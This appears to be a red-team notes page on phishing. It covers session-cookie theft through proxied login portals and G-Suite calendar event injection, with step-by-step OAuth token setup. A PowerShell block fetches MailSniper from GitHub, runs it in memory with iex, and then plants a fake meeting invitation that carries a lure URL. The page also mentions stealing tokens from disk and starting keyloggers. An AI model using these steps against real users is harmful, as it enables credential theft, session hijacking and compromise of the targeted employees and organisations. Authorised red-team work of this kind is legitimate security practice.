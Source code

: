 ```yaml
---
### The title for the content.
title : "phising"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "sql injection"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description : "phising."
### The datetime assigned to this page.
date : 2020-03-10T16:43:45+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "sql-injection"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight : 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
tags : ["Phising"]
---
```


## Phising

### Session Hijack

Steal creds and/or session cookies. Can be useful when client has good prevention against shells.

Email a link to a target employee pointing to a cloned/proxied auth portal (Microsoft Online(O365, Azure), G-suite. AWS Console).
When they auuth they get a real session cookies, and so do we.

Tools: [Evilginx2](https://github.com/kgretzky/evilginx2), [Modlishka](https://github.com/drk1wi/Modlishka) # MOVE TO OWN TOOL PAGE

When we get session we need to act fast and setup persistence.

### G-suite

G-Suite allowed for Calendar Event Injection. This allows a attacker to silently (without the need for a e-mail by using the API) inject a calendar entry to the users calender. This bypasses the "Don't auto-add" options. Doing something like this will create urgency with a reminder notification.

#### Manual

This can be prevented by setting 'Event settings -> Automatically add invitations' to 'No, only show invitations to which I have responded.'

1. Create a new gmail account with a convincing name
2. Prepair your payload of choice and make it available externally (for example with pwndrop)
3. Open `https://calendar.google.com/calendar/` while logged into your new account.
4. Create a new calendar event, make sure to set a reminder.  
![Calendar Event Injection](images/g-suite-cal-injection01.png)  
5. Ensure you click do not send.  
![Calendar Event Injection](images/g-suite-cal-injection02.png)  
6. The user will recieve a notification when the 'meeting' is supposed to happen.  
![Calendar Event Injection](images/g-suite-cal-injection03.png)  

![Calendar Event Injection](images/g-suite-cal-injection04.png)  

##### API

1. logon into the account you want to inject as  
2. open `https://console.developers.google.com/flows/enableapi?apiid=calendar&pli=1`  
3. Select Project and agree the ToS    
![Calendar Event Injection](images/g-suite-cal-injection_api_01.png)  
4. On the "Add credentials to your project" page click cancel.  
5. At the top of the page, select the "OAuth consent screen" tab. Select an Email address, enter a Product name if not already set, and click the Save button.    
![Calendar Event Injection](images/g-suite-cal-injection_api_02.png)  
6. Select the Credentials tab, click the Create credentials button and select OAuth client ID.    
![Calendar Event Injection](images/g-suite-cal-injection_api_03.png)  
7. Select the application type Web application, under "Authorized redirect URIs" paste in the following address: `https://developers.google.com/oauthplayground`. Then, click the Create button.  
![Calendar Event Injection](images/g-suite-cal-injection_api_04.png)  
8. Copy your "Client ID" and "Client Secret".  
9. Navigate here: `https://developers.google.com/oauthplayground/`.  
10. Click the "gear icon" in the upper right corner and check the box to "Use your own OAuth credentials". Enter the OAuth2 client ID and OAuth2 client secret in the boxes.  
11. Make sure that "OAuth flow" is set to Server-side, and "Access Type" is set to offline.  
![Calendar Event Injection](images/g-suite-cal-injection_api_05.png)  
12. Select the "Calendar API v3" dropdown and click both URLs to add them to scope. Click Authorize APIs.  
![Calendar Event Injection](images/g-suite-cal-injection_api_06.png)  
13. Select the account you want to authorize, then click Allow.  
![Calendar Event Injection](images/g-suite-cal-injection_api_07.png)  
(If there is an error such as "Error: redirect_uri_mismatch" then it’s possible the changes haven’t propagated yet. Just wait a few minutes, hit the back button and try to authorize again.).  
![Calendar Event Injection](images/g-suite-cal-injection_api_07-2.png)  
14. You should now be at "Step 2: Exchange authorization code for tokens." Click the "Exchange authorization code for tokens button". The "Access token" is the item we need for accessing the API. Copy the value of the "Access token".  
![Calendar Event Injection](images/g-suite-cal-injection_api_08.png)  
P.S. The "Access token" expires after 3600 seconds.  

```powershell
PS C:\Users\justin-p> iex((iwr https://raw.githubusercontent.com/dafthack/MailSniper/master/MailSniper.ps1).content)
PS C:\Users\justin-p> Invoke-InjectGEventAPI -PrimaryEmail Injector@gmail.com -AccessToken 'TOKEN' -Targets "InjectToMe@gmail.com" -StartDateTime 2020-09-02T15:20:00 -EndDateTime 2020-09-02T15:30:00 -EventTitle "Company Meeting" -EventDescription "Please review the agenda at the URL below prior to the meeting. https://ElRandoUrl" -EventLocation "Zoom app goes Bzzzzzzzz"
```

### Remote Access

Try to comprise workstations. This would (depending on the user) give access to internal and other cloud resources.
Allows us to steal tokens from disk, preform session hijack/riding or start keyloggers.

### Related tools

{{< related_pages_table tag="Phising" >}}